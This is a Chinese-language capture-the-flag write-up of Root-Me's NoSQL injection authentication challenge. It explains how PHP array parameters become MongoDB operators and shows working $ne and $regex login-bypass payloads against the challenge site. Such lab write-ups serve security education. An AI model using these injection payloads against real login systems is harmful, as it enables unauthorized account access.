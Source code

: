 Root-Me [NoSQL injection - authentication](https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-authentication)
===

簡單的登入頁面。

## 解題關鍵
1. NoSQL
2. Regex

## 提示訊息
```
Find the username of the hidden user.
```

## 解題方法
首先，我一直以為 `NoSQL` 是一個很安全的東西，直到碰到了這個題目，還是先瀏覽網友們提供的[文件](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf)，這是一篇論文，專門在談論 `NoSQL Injection` 的問題。  

簡單的說是透過 PHP 的機制來達成不安全的 `NoSQL Injection`，可以看以下的例子。  

```
?username=tolkien
&password=hobbit
```

若將這的資料送到伺服端，而在 PHP 上所撰寫的 `NoSQL` 查詢程式碼如下。  

```PHP
db->logins->find(array("username"=>$_POST["username"],
"password"=>$_POST["password"]));
```

實際上 `NoSQL` 執行的查詢如下  

```PHP
db.logins.find({ username: 'tolkien', password: 'hobbit' })
```

若是輸入陣列會發生什麼事情?

```
?username[$ne]=1
&password[$ne]=1
```

PHP 的 Array 會變成下面這樣，`username`、`password` 變成陣列。

```PHP
array(
   "username" => array("$ne" => 1)
  ,"password" => array("$ne" => 1))
;
```

接著查看 `NoSQL` 執行的查詢  

```PHP
db.logins.find({ username: { $ne: 1 }, password: { $ne: 1 } })
```

由於 `$ne` 不是 `MongoDB` 的條件，同時 `username`、`password` 都不等於 1，相當於查詢條件，秀出 `logins` 這個 DB 中，所有不包含 `username`、`password` 的資料。  

到這邊就忍不住送出 `Payload` 嘗試解題，`Payload` 如下。  

```
http://challenge01.root-me.org/web-serveur/ch38/
?login[$ne]=1
&pass[$ne]=1
```

接著得到回應: `You are connected as : admin`，顯然有一個使用者名稱叫做 `admin`，那剛把 `login[$ne]=1` 變更為 `login[$ne]=admin` 時，得到了 `You are connected as : test`，嘗試改為 `test` 又變成輸出 `admin`，所以該題應該是要想辦法取得非 `admin` 與 `test` 的。  

由於在[論文](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf)中，已經說明了 `$ne` 的意思，現在想查看有沒有其他可以用的運算元，簡單查了 MongoDB 的[文件](https://docs.mongodb.com/manual/reference/operator/query/regex/#op._S_regex)得到 `$regex` 的用法，透過政則表達式的方法，來排除掉 `admin`、`test` 的選項。  

```
http://challenge01.root-me.org/web-serveur/ch38/
?login[$regex]=^(?!admin|test)
&pass[$ne]=1
```

這部分有些疑惑，若是下 `(?!admin|test)` 並不會有任何動作，輸出還是維持 `admin`，對於對政則表達不太熟悉的關係，嘗試多次後，發現使用 `^(?!admin|test)` 才能真正排除兩個選項，也解決該題。  

![](img/01.png)  

然後有點欠揍，送出 Flag 一直出錯，原來是不包含 `Flag{}`...。

## Reference
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf  
https://docs.mongodb.com/manual/reference/operator/query/ 
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)